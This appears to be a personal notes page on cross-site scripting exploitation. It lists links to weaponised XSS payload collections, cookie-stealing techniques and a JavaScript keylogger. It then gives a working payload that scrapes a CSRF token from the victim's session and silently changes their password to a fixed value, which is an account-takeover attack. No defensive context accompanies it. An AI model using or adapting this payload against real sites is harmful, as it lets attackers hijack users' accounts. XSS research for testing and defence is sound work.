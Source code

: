 https://excess-xss.com/
https://labs.detectify.com/2012/11/07/how-to-exploit-an-xss/
https://medium.com/@hakluke/upgrade-xss-from-medium-to-critical-cb96597b6cc4
https://github.com/hakluke/weaponised-XSS-payloads
https://www.exploit-db.com/exploits/20009
http://www.xssed.com/xssinfo
https://security.stackexchange.com/questions/49185/xss-cookie-stealing-without-redirecting-to-another-page
https://github.com/JohnHoder/Javascript-Keylogger

##
https://gist.github.com/The-XSS-Rat?direction=asc&sort=updated
##


```
<script>
var x = new XMLHttpRequest();
x.open("GET", "/lk", true);
x.onreadystatechange = function() {
    if (x.readyState == XMLHttpRequest.DONE) {
        text = x.responseText;
        text = text.substr(text.indexOf('invisible">') + 'invisible">'.length);
        csrf = text.substr(0, text.indexOf('</p>'));
        newdata = JSON.stringify({'new_password':'QWERTYqwerty1',confirm_password:'QWERTYqwerty1','token':csrf});
        y = new XMLHttpRequest();
        y.open("POST", "/change_password", true);
        y.setRequestHeader("Content-type", "application/json");
        y.send(newdata);
    }
};
x.send(null);
</script>
```
